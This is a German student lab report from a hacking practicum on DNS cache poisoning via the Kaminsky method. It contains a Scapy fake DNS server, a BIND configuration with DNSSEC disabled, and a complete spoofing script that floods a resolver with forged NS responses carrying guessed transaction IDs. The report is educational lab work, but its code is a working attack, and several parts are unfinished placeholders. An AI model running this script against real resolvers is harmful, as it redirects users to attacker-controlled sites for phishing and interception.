\documentclass[10pt,a4paper]{article}
\usepackage[utf8]{inputenc}
\usepackage[german]{babel}
\usepackage[T1]{fontenc}
\usepackage{fullpage}
\usepackage{amssymb}
\usepackage{listings}
\usepackage{caption}
\usepackage{color}
\usepackage{amsmath}
\usepackage{graphicx}
\usepackage{hyperref}
\usepackage{colortbl}
\usepackage{hhline}

\setlength{\parindent}{0pt}
\setlength{\columnsep}{0.5cm}

% Python colored syntax highlighting
\usepackage{listings}
\usepackage{color}
\usepackage{amsmath}
\definecolor{dark-gray}{RGB}{135,135,135}
\definecolor{light-blue}{RGB}{102,178,255}
\definecolor{light-orchid}{RGB}{210,120,210}
\lstdefinelanguage{python-color}{
 morekeywords={and, as, assert, break, class, continue, def, del, elif, else, except, exec, finally, for, from, global, if, import, in, is, lambda, not, or, pass, print, raise, return, try, while, with, yield, None, True, False, import},
 ndkeywords={self},
 keywordstyle=\color{blue}\bfseries,
 ndkeywordstyle=\color{light-orchid}\bfseries,
 sensitive=false,
 identifierstyle=\color{black},
 basicstyle=\sffamily ,
 morecomment=[l]{\#},
 morecomment=[s]{/*}{*/},
 morecomment=[s]{"""}{"""},
 morecomment=[l][\color{light-blue}]{@},
 morecomment=[s][\color{light-blue}]{"}{"},
 commentstyle=\itshape\color{dark-gray},
 stringstyle=\color{red}\ttfamily,
 tabsize=2,
 columns=fullflexible,
 literate={^}{{$\mspace{-3mu}\hat{\quad}\mspace{-5mu}$}}1
 {<}{$<$}2 
 {>}{$>$}2 
 {<:}{{$<\mspace{-3mu}:$}}2 
 {:>}{{$:\mspace{-3mu}>$}}2
 {+}{$+$ }2 
 {++}{{$+\mspace{-8mu}+$ }}2
 {\~}{{$\mspace{-3mu}\tilde{\quad}\mspace{-3mu}$}}1
 {\~}{$\sim$}1
 {__}{\underline{\hspace{0.5cm}}}1
 {*}{${}^{\ast}$}1 
 {.}{$\mspace{1mu}.\mspace{1mu}$}1
}
\lstset{language=python-color}
\lstset{framexleftmargin=5pt, framextopmargin=5pt, framexbottommargin=5pt, frame=tb, framerule=0pt}
\definecolor{grey}{rgb}{0.9,0.9,0.9}
%\newcounter{nalg}[section] % defines algorithm counter for chapter-level
%\renewcommand{\thenalg}{\thechapter .\arabic{nalg}} %defines appearance of the algorithm counter
%\DeclareCaptionLabelFormat{algocaption}{Algorithm \thenalg} % defines a new caption label as Algorithm x.y

\lstnewenvironment{algorithm}[1][] %defines the algorithm listing environment
{   
    %\refstepcounter{nalg} %increments algorithm number
    %\captionsetup{labelformat=algocaption,labelsep=colon} %defines the caption setup for: it ises label format as the declared caption label above and makes label and caption text to be separated by a ':'
    \lstset{ %this is the stype
        mathescape=true,
        keywordstyle=\color{black}\bfseries\em,
        keywords={,input, output, return, datatype, function, in, if, else, foreach, while, begin, end, for, endfor, from, to, do, loop, print, }, %add the keywords you want, or load a language as Rubens explains in his comment above.        
        #1 % this is to add specific settings to an usage of this environment (for instnce, the caption and referable label)
    }
}
{}

\author{Lukas Jung, Marc Narres-Schulz, Oliver Sänger, Tobias Zeimetz}
\title{Teil III: \\DNS Cache Poisoning}

\begin{document}
\maketitle
\newpage

\section{Einleitung}
Bei der vorliegenden Arbeit handelt es sich um ein Protokoll über eine Teilaufgabe im \glqq Hackerpraktikum\grqq. Die erste Aufgabe bestand in der Programmierung eines eigenen DNS-Servers. Der Server wurde in der Programmiersprache Python geschrieben und als Hilfe wurde das Modul Scapy verwendet. Der Python-Server sollte in der Lage sein, auf eine DNS-Anfrage eine entsprechend korrekt geformte Antwort zu senden. Die IP, mit welcher der Python-Server antwortet, sollte selbst einstellbar sein.

Anschließend sollte ein DNS-Server aufgesetzt und konfiguriert werden. Dieser Server sollte später das Ziel des DNS-Cache-Poisoning-Angriffs sein. Die grundlegende Idee bestand darin, erst alle Sicherheitseigenschaften des Servers gegen diesen einen Angriff zu deaktivieren. Anschließend bestand das Ziel darin den Cache des DNS-Servers (Victim-DNS) zu \glqq vergiften\grqq \ und eine fehlerhaften DNS-Auflösung zu injecten. Ferner war das Ziel, den Cache des Victim-DNS so zu manipulieren, dass alle Anfragen an den in Python selbstgeschriebenen DNS-Server (Python-Server oder auch Attacker-DNS) weitergeleitet werden. Dadurch ist es dem Angreifer immer möglich eine andere IP-Adresse für die Auflösung zu wählen. Eine genauer Erläuterung folgt in den nächsten Kapiteln.

Die folgenden Kapitel beschäftigen sich mit den Grundlagen des Angriffs, das heißt wie sollte in der Theorie vorgegangen werden, wie müssen die Abläufe aussehen und was sind die Vorrausetzungen für den Angriff. Außerdem wird der Angriff im Detaill genauer Erklärt. Der nächste Abschnitt besteht aus der Konfiguration der Server, welche Komponenten verwenden wurden und welche Sicherheitsmaßnahmen deaktiviert wurden. Im letzten Kapitel folgt anschließend eine detaillierte Beschreibung unseres Vorgehens, wie unsere Implementierung des Angriffs funktioniert und welche Tests durchgeführt wurden.

\section{Grundlagen des Angriffs}
In diesem Kapitel wird zunächst der Ursprüngliche DNS Cache Poisoning Angriff so wie seine Lösung beschrieben, danach wird genauer auf die aktuelle Variante eingegangen

\subsection{Historisches DNS Cache Poisoning}
Der Ursprüngliche DNS-Cache-Poisoning Angriff basiert darauf dem Ziel-DNS-Server (Victim-DNS) einen Gefälschten DNS Eintrag in Form eines sogenannten Additional Record unter zu schieben. Bei einem Additional Record handelt es sich um einen zusätzlichen Eintrag in einer DNS-Antwort. Dieser wird häufig dazu verwendet um zusätzliche Informationen wie die IP anderer NS-Server zu übertragen.

Dazu wird wie Folgt vorgegangen: Der erste Schritt besteht darin, dass der Angreifer einen validen DNS-Server (Attacker-DNS) besitzt. Dieser Attacker-DNS ist für die Domain \emph{attacker.com} zuständig. Wird eine DNS-Anfrage für die Domain \emph{attacker.com} an den Attacker-DNS gestellt, so wird der Attacker-DNS mit der korrekten IP für die Webseite antworten. Zusätzlich sendet er jedoch einen Additional Record, welcher eine falsche IP auflösung besitzt. Dadurch wird der Cache eines anderen DNS-Servers (Victim-DNS) mit dem Zusätzlichen Eintrag \glqq injected\grqq\ und wird von nun an eine falsche IP auflösen.

\subsection{DNS-Spoofing}
Beim sogenannten DNS-Spoofing versucht der Angreifer eine gefälschte DNS-Antwort zu senden, die vorgeblich von zuständigen DNS-Server Stammt. Damit der Angriff erfolgreich ist, muss die gefälschte Antwort entweder vor der legitimen Antwort beim angegriffenen DNS-Server eintreffen, oder der zuständige Nameserver wird durch einen Denial-of-Service-Angriff daran gehindert eine Antwort zu senden.

Die DNS-Antwort zu fälschen ist in sofern Problematisch, dass sie eine 16 Bit lange Transaktionsnummer enthält die vom Ziel-Server beim erstellen der Anfrage generiert wurde. Für einen erfolgreichen Angriff muss die Transaktionsnummer erraten werden, hierfür sind im Schnitt $\displaystyle \textstyle {\frac {2^{16}}{2}}=32.768$ versuche Nötig. Der Angreifer kann mehrere gefälschte Antworten gleichzeitig senden, um die Erfolgswahrscheinlichkeit bei einem Angriffsversuch zu erhöhen.

Ist man beim ersten Versuch nicht erfolgreich so wird der Ziel-DNS-Server die Korrekte Antwort zwischenspeichern, so dass erst nach Ablauf der Time-To-Live, also der Gültigkeitsdauer der validen DNS Antwort, ein neuer Versuch unternommen werden kann.

Bei BIND handelt es sich um den standard DNS-Server auf einem Linux System. Ältere Versionen hatten verschiedene Probleme und Schwachstellen. Beispielsweise unter BIND 8 wurde die Transaktionsnummer bei jeder Anfrage iteriert. Dadurch war es für einen Angreifer leicht, die nächsten Transaktionsnummern vorherzusagen. Sendet der angegriffene Resolver eine identische DNS-Anfrage mehrfach mit verschiedenen Transaktionsnummern, erhöht sich die Erfolgswahrscheinlichkeit aufgrund des Geburtstagsparadoxons erheblich. Dieser Punkt wird jedoch noch genauer im nächsten Kapitel behandelt.

War der Angriff nicht erfolgreich, befindet sich der korrekte Resource Record im Cache, sodass der Angreifer erst nach Ablauf der Time to Live (TTL) einen erneuten Versuch unternehmen kann.

\subsection{Kaminsky Angriff}
In diesem Abschnitt wird der Angriff von Dan Kaminksy genauer dargelegt. Er fand mehrere Möglichkeiten, wie der Cache eines DNS-Servers \glqq injected\grqq\ werden kann. In diesem Prakikum wurde sich jeodch ausschließlich mit der effektivsten Methode beschäftigt um den Angriff zu realisieren. An Stelle einer falschen IP in den Cache des DNS-Servers zu \glqq injecten\grqq\ wird versucht einen vollständigen NS-Eintrag zu injection.  

Wie bereits erwähnt, muss der Angreifer zuerst einen eigenen DNS-Server (Attacker-DNS) konfigurieren, sodass dieser als authoritative für die Domain $victim.com$ und $attacker.com$ gilt. Den Attacker-DNS als authoritative einzustellen ist kein Problem und wird auch nicht verhindert, da kein Root-Server diesen als authoritative angeben wird.

{
\centering

\includegraphics[scale=0.45]{DNS-Cache-Poisoning.png}
\newpage
}

Im ersten Schritt stellt der Attacker eine DNS-Anfrage für die Domain \emph{victim.com} an den Victim-DNS. Informationen wie Paketstrukturen oder auch die Transaktionsnummer sind zu diesen Zeitpunkt noch nicht wichtig und werden daher nicht weiter im Sequenzdiagramm aufgeführt.

Wichtig ist, dass die Seite noch nicht (kurz vorher) angefragt wurde, da der Victim-DNS sonst die IP zu der Seite im Cache gespeichert hat. Dadurch könnte keine falsche IP \glqq injected\grqq\ werden und der Angriff wäre zwecklos. Ist die Seite nicht im Cache des Victim-DNS eingetragen, wird eine Anfrage an den Root-Server gestellt, um herauszufinden was der zuständige Nameserver (Appropriate-DNS) für die Angefragt Domain ist.

Nachdem der Victim-DNS die IP-Adresse des zuständigen NS-Server empfangen hat, stellt er die DNS-Anfrage an den Appropriate-DNS. Dieses Zeitintervall wird vom Angreifer ausgenutzt, um gefälschte DNS-Antworten zu generieren bzw. an den Victim-DNS zu versenden. Hier ist es wichtig, dass die Transaktionsnummer richtig geraten wird, die Source-IP muss gleich dem zuständigen Appropriate-DNS sein. Weiter muss auch der Name des zuständigen Appropriate-DNS entsprechend gefälscht werden und das Paket muss über die gleichen Ports eingehen, die zum Versenden der Anfrage vom Victim-DNS verwendet wurden. Als letztes muss natürlich auch die DNS-Anfrage (genauer: die Question-Sektion) im Antwortpaket enthalten sein und es muss einen NS-Record enthalten, damit der Victim-DNS nochmal den Attacker-DNS nach der IP für \emph{victimg.com} anfragt.\\

%TODO 
\textbf{[TODO: WIEVIELE PAKETE AUSREICHEN UND WIE DAS GANZE LAUFEN SOLL]}\\
%%

Wenn jetzt das \glqq richtige\grqq\ Antwortpaket vom Approriate-DNS an den den Victim-DNS gesendet wird, ist das vom Angreifer erstellte und versendete Paket jedoch längst angekommen und auch angenommen. Dadurch wird die Antworten des richtigen Appropriate-DNS vom Victim-DNS ignoriert und verworfen. Da dem Victim-DNS durch das gefälschte Paket mitgeteilt wurde, dass der Attacker-DNS für die IP-Auflösung zuständig ist, sendet der Victim-DNS erneut eine DNS-Anfrage. Jetzt kann der Attacker-DNS mit einer vom Angreifer selbst gewählten IP antworten. In einem letzten Schritt wird die aufgelöste IP jetzt noch vom Victim-DNS zurück an den Anreifer gesendet. Der Angreifer überprüft jetzt ob die Antwort der DNS-Anfrage von \emph{victim.com} die von ihm selbst gewählte IP beinhaltet. Sollte dem nicht der Fall sein, so versucht er den gesamten Vorgang erneut.

Um einen Overload beim DNS-Server zu verhinden, werden alle Angefragten IP-Auflösungen kurzfristig im Cache gespeichert. Daher kann der Angreifer nicht einfach erneut die gleiche Domain anfragen. Um das Caching zu verhinern und dem Angriff somit ein größeres Zeitfenster zu schaffen, stellt der Angreifer die Anfrage immer an ein anderes Subdomains als die Male zuvor. Beispielsweise könnte beim ersten Mal die Domain \emph{www1.victim.com} angefragt werden und beim zweiten Mal die Domain \emph{www12.victim.com}. Dadurch wird der Victim-DNS dazu \glqq gezwungen\grqq\ die Anfragen erneut an den NS-Server dieser Domain zu stellen.

Angenommen der Angriff hat nach einigen Versuchen funktioniert und der Cache wurde erfolgreich \glqq injected\grqq\ ergibt sich für einen normalen Benutzer folgendes Szenario: Der Benutzer stellt eine DNS-Anfrage an den Victim-DNS für die Domain \emph{user.victim.com}. Der Victim-DNS hat noch aufgrund des \glqq Poisonings\grqq\ einen Eintrag im Cache, dass der Attacker-DNS authorotative für die Domain sei. Aufgrundessen fragt der Victim-DNS beim Attacker-DNS nach der IP für die angefragte Domain nach. Der Attacker-DNS antwortet darauf mit einer zuvor festgelegten IP die auf eine vom Angreifer kontrollierte Webseite leitet. Der Victim-DNS leitet die IP-Adresse als letzten Schritt an den Benutzer weiter, welcher sich anschließend mit der \glqq falschen\grqq\ Webseite verbindet.

\section{Konfigurationen der Server und Schnittstellen}
Dieses Kapitel beschäftig sich mit unserer Netzwerkstruktur, den verwenden System und ihren Konfigurationen. Zu erst wird auf den aus Ausgabe 2 in Python implementierten DNS-Server eingegangen. Anschließend werden die Konfigurationen des in Ubuntu aufgesetzten DNS-Servers dargelegt und genauer Erläutert. Im letzten Abschnitt dieses Kapitels wird die Architektur unseren Netwerks dargestellt. Genauer heißt das, wie kommunizieren die einzelnen Parteien miteinander und wie sind sie verbunden.

\subsection{Python DNS-Server}
Die erste Aufgabe bestand darin, einen DNS-Server in Python mit Hilfe von Scapy zu implementieren. Die IP dieses DNS-Servers wird später dazu verwenden um einen gefälschten NS-Eintrag in den Victim-DNS einzuschleusen. Der dazugehörige Programmcode gestaltet sich folgendermaßen:
\begin{center}
\begin{lstlisting}
import os
from socket import AF_INET, SOCK_DGRAM, socket

from scapy.all import DNS, DNSQR, DNSRR, dnsqtypes

sock = socket(AF_INET, SOCK_DGRAM)
sock.bind((os.environ['ATK_SERVER_IP'], 53))

fixed_ip = os.environ['ATK_FORGED_IP']
\end{lstlisting}
\end{center}
%TODO das mit der fixed ip
Da DNS-Server primär Anfragen (Requests) über das User Datagram Protocol (UDP) und Port 53 erhalten, liegt der erste Schritt im erstellen und binden eines Datagram Sockets (SOCK\_DGRAM). Dieser Socket ist wie es bei DNS oft üblich ist an den Port 53 gebunden. Die Variable $fixed\_ip$ erhählt einen vom Benutzer selbst gewählte IP-Adresse als Eingabe. Die Adresse wird beim Start des Python-Servers abgefragt.
\begin{center}
\begin{lstlisting}
while True:
    # DNS server that resolves every A record to a fixed A:IPV4 response.
    request, addr = sock.recvfrom(4096)

    dns_request = DNS(request)
    assert dns_request.opcode == 0, dns_request.opcode  # QUERY
    assert dnsqtypes[dns_request[DNSQR].qtype] == 'A', dns_request[DNSQR].qtype
\end{lstlisting}
\end{center}
Die While-Schleife sorgt dafür, dass der Socket niemals geschlossen wird und alle DNS-Anfragen (Querries) mit der zuvor selbst gewählten $\mathit{fixed\_ip}$ beantwortet. In der Variablen $\mathit{request}$ sind alle Informationen der DNS-Anfrage enthalten. Die Informationen der Anfragen werden später beim Erstellen der Antwort verwendet, um eine erwartungsgemäße und korrekte Antwort zurück zu liefern. 

Als Nächstes wird mit $\mathit{assert}$ sichergestellt, dass zum Einen der OP-Code null ist und zum Anderen es sich um eine A-Record-Anfrage handelt. Dadurch dass der OP-Code null ist, weiß unser Python-Server, dass es sich um eine DNS-Anfrage (Query) handelt. Da das Ziel darin besteht, einem Benutzer (eines Browsers) eine falsche IP zurück zu liefern, muss dieser auch eine IP-Auflösung anfragen. Da es sich bei einer IP-Auflösung um einen sogenannten A-Record handelt, prüft unser DNS-Server ebenfalls den Typ der Anfrage.
\begin{center}
\begin{lstlisting}
    response = DNS(
        id=dns_request.id,
        qr=1, opcode=0, aa=1, tc=0, rd=0, ra=0, z=0, rcode=0,  
        qdcount=1, ancount=1,
        nscount=dns_request.nscount,
        arcount=dns_request.arcount,
        ad=dns_request.ad,
        cd=dns_request.cd,
        qd=DNSQR(qname=dns_request[DNSQR].qname, qtype='A', qclass='IN'),
        an=DNSRR(rrname=dns_request[DNSQR].qname, type='A', rclass='IN', 
        	rdata=fixed_ip, ttl=86400),
        ns=dns_request.ns,
        ar=dns_request.ar
    )

    sock.sendto(bytes(response), addr)
\end{lstlisting}
\end{center}
Anschließend wird eine Antwort gebildet, welche zu der Angefragen Website die IP beinhaltet bzw. in unserem Fall eine vom Angreifer selbst gewählte IP. Um ein gültiges Antwort-Paket zu bilden, müssen mehrere Optionen (sogennante Flags) korrekt gesetzt sein. Die Optionen werden im Folgenden aus Gründen der Einfachheit in tabellarischer Form erläutert:
\begin{center}
	%TODO Lukas:  Warum ist es wichtig, dass es sich um eine Authoritative antwort handelt?
	%			  Bitte den Absatz mit aa nochmal Formulieren und den Rest eintragen.
	\setlength\arrayrulewidth{0.6pt}    
    \begin{tabular}{ | p{4.8cm} | p{8.5cm} |}
    \rowcolor[gray]{0.9} 
    \hline
    Flag & Bedeutung \\ \hline
    \hline
    id=dns\_request.id & Hierbei handelt es sich um die Transaktions-ID (TID). Die Antwort muss die gleiche TID besitzen 
    wie die Anfrage.\\ \hline
    qr=1 & Die Flag qr steht für Query/Response. Eine eins im Paket bedeutet, dass es sich um eine Antwort handelt\\ \hline
    opcode=0 & Durch diese Option wird angegeben, dass es sich um eine Standard-Query handelt\\ \hline
    aa=1 & Wie bereits in Kapitel X erkläutert wurde, ist es wichtig, dass es sich bei der Antwort um eine \glqq Authoritative\grqq \ Antwort handelt. Das setzen der Flag auf den Wert Eins wird die Antwort Authoritative.\\ \hline
    tc=0 & Sollten die zu übermittelnden Daten größer als 512 Bytes sein, sind UDP-Pakete zu kleine für eine solche Antwort. In diesem Fall müsste das Bit auf Eins gestellt werden um dem Empfänger des Paketes anzugeben, das es sich um ein TCP-Package handelt.\\ \hline
    rd=0, ra=0 & Die beiden Flags sind zum Angeben das eine Rekursion benötigt (desired) oder verfügbar (available) ist. In unserem Fall beantworten wir jedoch die Anfragen alle mit einer IP, daher kann diese Option auf Null gesetzt werden.\\ \hline
    z=0 & Hierbei handelt es sich um ein reserviertes Bit, welches immer auf Null gesetzt sein muss.\\ \hline
    rcode=0 & Der rcode ist der Antwort Code (Response Code) vom Server. Hier gibt es die Möglichkeit mehr als nur zwei Optionen zu wählen. Hier steht 0 für \glqq ok\grqq, 1 für \glqq format-error\grqq, 2 für \glqq server-failure\grqq, 3 für \glqq name-error\grqq, 4 für \glqq not-implemented\grqq, 5 für \glqq refused\grqq.\\ \hline
    qdcount=1 & Steht für Question Record Count und gibt an nach was gesucht wird. Beinhaltet sind dabei die URL, der Typ der Anfrage und andere Informationen. Da ein DNS-Server immer die Frage im Antwortpaket wiederholt, muss dieser Wert auf Eins gesetzt sein.\\ \hline
    ancount=1 & Gibt an wieviele Records in der Antwort mitgeliefert werden. Da wir nur eine falsche IP übertragen wollen steht dieser Wert auf Eins.\\ \hline
    nscount=dns\_request.nscount & \\ \hline
    arcount=dns\_request.arcount & \\ \hline
    ad=dns\_request.ad & \\ \hline
    cd=dns\_request.cd & \\ \hline
    qd=DNSQR(qname= dns\_request[DNSQR].qname, qtype='A', qclass='IN') & Die Abkürzung qd steht für Query Data. Hier wird lediglich die DNS-Anfrage eingetragen und dass es sich um enen A-Record handelt.\\ \hline
    an, ns, ar & \\
    \hline
    \end{tabular}
\end{center}
In einem letzten Schritt wird das gebildete Paket als Antwort auf die DNS-Anfrage zurück gesendet.

\subsection{Victim DNS-Server}
%TODO Bindversion angeben, Ubuntu-Version angeben
Aufgrund der Nachvollziehbarkeit und der Reproduzierbarkeit werde im folgenden Abschnitt die Konfigurationen auf dem Victim-DNS genauer erläuert. Als Grundlage für den Victim-DNS wurde ein Ubuntu-Server (Version X) gewählt. Auf diesem Serversystem wurde der standard DNS-Server names BIND eingerichtet. Bei der von uns verwendeten BIND-Version handelt es sich um X. Jegliche konfigurationen des DNS-Servers wurde in \emph{/etc/bind/named.conf.options} vorgenommen. Im Folgenden werden die einzelnen Konfigurationen genauer erläutert:
\begin{center}
\begin{lstlisting}
options {
    ...

    query-source address <ip_eth1> port 54;

    dnssec-enable no;

    allow-recursion { any; };
    allow-query { any; };

    auth-nxdomain no;

    listen-on port 53 {
        127.0.0.1;
        <ip_eth1>;
    };

};
\end{lstlisting}
\end{center}

Die erste Zeile gibt den DNS-Server an, dass alle Anfragen nach außen über Port 54 laufen und über die IP \emph{<ip\_eth1>} versendet werden. Die IP musste zusätzlich angegeben werden, da unser DNS-Server zwei Interfaces (eth0 und eth1) verwendet. Das erste Interface (eth0) dient dazu, dass Vagrant unsere virtuelle Machinen verwalten kann. Bei Vagrant handelt es sich um eine Anwendung zum Erstellen und Verwalten von virtuellen Maschinen. Es ermöglicht ein einfaches Deployment und eine Reproduzierbare und leicht zu übertragende (Beispielsweise Git) Umgebung. Eine Vagrant-Datei mit den Konfigurationen muss nur gestartet werden, und alle virtuellen Maschinen werden den Konfigurationen entsprechend auf dem Computer installiert und konfiguriert. Daurch ist gewährleistet, dass alle Mitglieder in der Gruppe die gleichen und aktuellsten virtuellen Maschinen besitzen. Beim zweiten Interface (eth1) handelt es sich um eine Netzwerkbrücke über die alle DNS-Anfragen angenommen und versendet werden.

Beim zweiten Eintrag handelt es sich um die DNS Security Extensions (DNSSEC). Diese Extensions werden verwendet um die Integrität von DNS-Antworten zu gewährleisten. DNSSEC signiert alle DNS-Records (A,MX etc.) einer Zone mit Hilfe von Public Key Infrastructure (PKI). Damit der Angriff funktionieren kann, wurde diese Option deaktiviert. Dadurch ist sichergestellt, dass keine weiteren Überprüfungen von Signaturen etc. vorgenommen werden.\\

%Marc
Der nachfolgende allow-recursion Eintrag sorgt dafür, dass der DNS Server nicht nur anfragen für Zonen beantwortet für die er selbst autoritativ ist, sondern auch rekursiv über andere Nameservern Adressen auflöst. Der parameter any sorgt dafür, dass der Server anfragen von jeder beliebigen IP annimmt.

Die allow-query Anweisung legt fest von welchen Clients der Server überhaupt anfragen an nimmt.\\
%%

%Marc
Mit der auth-nxdomain no anweisung wird festgelegt, dass der Nameserver NXDOMAIN Records (also Antworten für nicht existente Domains) nicht als autoritativ kennzeichnen soll. Anderenfalls würde der Server alle NX records als autoritativ  markieren, auch wenn er eigentlich nicht die Autorität über die betreffende Domain inne hat.
%%

Der letzte Eintrag legt fest über welches Interface und welchen Port die die DNS-Anfragen empfangen werden. Hier wurde der DNS-Server so konfiguriert, dass er alle Anfragen über den Standart DNS Port 53 annimmt. Außerdem werden alle Anfragen über die IP \emph{<ip\_eth1>} und die Loopback angenommen.

\section{Der Angriff}
In folgendem Abschnitt wird die praktische Umsetzung des Angriffs genauer dargelegt. Im ersten Unterpunkt wird auf die konkrete Implementierung in Python mithilfe von Scapy eingegangen. Dabei wird dargelegt, was die einzelnen Optionen bedeuten und wie sie zu interpretieren sind. Als nächstes folgt eine Beschreibung unserer Vorgehensweise und welche Versuche und Versuchsreihen durchgeführt wurden. Zum Schluss werden Gegenmaßnahmen aufgezählt, die einen solchen Angriff verhindern sollen.

\subsection{Das Python Programm}
\begin{center}
\begin{lstlisting}
import os
import random
from socket import AF_INET, SOCK_DGRAM, socket

from scapy.all import IP, UDP, DNS, DNSQR, DNSRR, sr1, sendpfast, Ether

sock = socket(AF_INET, SOCK_DGRAM)
sock.bind((os.environ['ATK_SERVER_IP'], 1234))

# Vulnerable recursive DNS server settings
target_dns_ip = os.environ['VLN_SERVER_IP']
target_dns_port_in = int(os.environ['VLN_DNS_PORT_IN'])
target_dns_port_out = int(os.environ['VLN_DNS_PORT_OUT'])
\end{lstlisting}
\end{center}
\begin{center}
\begin{lstlisting}
# Target domain base to be messed with
target_domain_base = ".bank.com"
# Authoritative NS for the target domain
known_ns_domain = "ns01.cashparking.com."
known_ns_ip = "216.69.185.38"

# Malicious DNS server
attacker_dns_ip = os.environ['ATK_SERVER_IP']
expected_ip = os.environ['ATK_FORGED_IP']
\end{lstlisting}
\end{center}
\begin{center}
\begin{lstlisting}
def initial_request(domain, ip, port):
    return Ether() / IP(dst=ip) / UDP(dport=port) / DNS(
        id=42,
        qr=0,
        rd=1,
        ra=0,
        qdcount=1,
        ancount=0,
        nscount=0,
        arcount=0,
        qd=DNSQR(qname=domain, qtype='A', qclass='IN')
    )
\end{lstlisting}
\end{center}
Die Funktion initial\_request generiert eine Reguläre DNS-Anfrage, um den Ziel-Server auf zu fordern die Ziel-Domain auf zu lösen.
\begin{center}
\begin{lstlisting}
def forged_ns_response(id, target_domain, target_ip, attacker_dns_ip, known_ns_domain, 
	known_ns_ip, dst_port):
    response = Ether() / IP(src=known_ns_ip, dst=target_ip) / UDP(dport=dst_port) / DNS(
        id=id,  # Query ID / transaction id
        qr=1,  # QR (Query / Response) 1=response
        opcode=0,  # Set by client to 0 for a standard query, 0:"QUERY",1:"IQUERY",2:"STATUS"
        aa=0,  # Set to 1 in a server response if this dns_response is Authoritative, 0 if not.
        tc=0,
        # Set to 1 in a server response if the dns_response can't fit in the 512-byte limit of a 
        # UDP packet response
        rd=1,  # RD (Recursion Desired)
        ra=0,  # RA (Recursion Available), set by server: will (1) or won't (0) support recursion
        z=0,  # This is reserved and must be zero
        rcode=0,  # Response code from the server: indicates success or failure
        # 0:"ok", 1:"format-error", 2:"server-failure", 3:"name-error", 4:"not-implemented", 
        # 5:"refused"
        qdcount=1,  # Question record count
        ancount=0,  # Answer count
        nscount=1,  # authority count
        arcount=1,  # additional record count
        # AD and CD bits are defined in RFC 2535
        ad=0,  # # Authentic Data
        cd=0,  # Checking Disabled (0/1)
        # DNS Question Record
        qd=DNSQR(qname=target_domain, qtype='A', qclass='IN'),
        # DNS Resource Record
        an=0,
        ns=DNSRR(rrname=target_domain, type='NS', rdata=known_ns_domain, ttl=253643),
        ar=DNSRR(rrname=known_ns_domain, type='A', rdata=attacker_dns_ip, ttl=253643)
    )
    return response
\end{lstlisting}
\end{center}
Mit der Funktion forged\_ns\_response werden generische Antwortpakete generiert.
Die Funktion erhält mehrere Parameter, insbesondere die Transaktions-ID welche die Nachricht erhalten soll. Mit ihrer Hilfe werden zunächst alle möglichen Antworten generiert, die dann gebündelt zum Server gesandt werden können.

\begin{center}
\begin{lstlisting}
counter = 0
while True:
    target_domain = "www" + str(counter) + target_domain_base
    counter = (counter + 1) % (2 ** 16)

    packet_list = [initial_request(target_domain, target_dns_ip, target_dns_port_in)]

    response_amount = 50
    r = random.randint(0, (2 ** 16) - response_amount + 1)
    for i in range(r, r + response_amount):
        packet_list.append(
            forged_ns_response(i, target_domain, target_dns_ip, attacker_dns_ip, 
            		known_ns_domain, known_ns_ip, target_dns_port_out))

    p_txid_match = (1 / (2 ** 16)) * response_amount * counter * 100
    print("Iteration: {}, possible cache poisoning: {:4.2f}%".format(counter, p_txid_match))
    print("Sending packets from {} with id in interval [{}, {}] to {}"
    	.format(known_ns_ip, r, r + response_amount, target_domain))

    sendpfast(packet_list, pps=100000, iface="eth1", verbose=0)

    dns_response = sr1(IP(dst=target_dns_ip) / UDP(dport=53) / DNS(rd=1, 
    	qd=DNSQR(qname=target_domain)), verbose=0)

    try:
        if dns_response[DNS].an.rdata == expected_ip:
            print("Successfully poisoned the zone of {}".format(target_domain_base))
            break
    except:
        print("Poisoning failed")
    break
\end{lstlisting}
\end{center}

\subsection{Versuchsreihen und Vorgehensweise}

%Versuch 1: DNS Python DNS Server Schreiben, dessen Antworten von Bind Akzeptiert werden; Wichtig war: Bind Akzeptierte die Antworten nur, wenn der Request in der Antwort enhalten war.
%Versuch 2: Generische A-Record, wo nur die ID eingesetzt werden muss
%Versuch 3: DNS Pakete Schnell genug senden: On the fly ist zu langsam. sr1 ist zu langsam => sendpfast und pakete vorbereiten
%Versuch 4: Paketreihenfolge mit wireshark beobachen

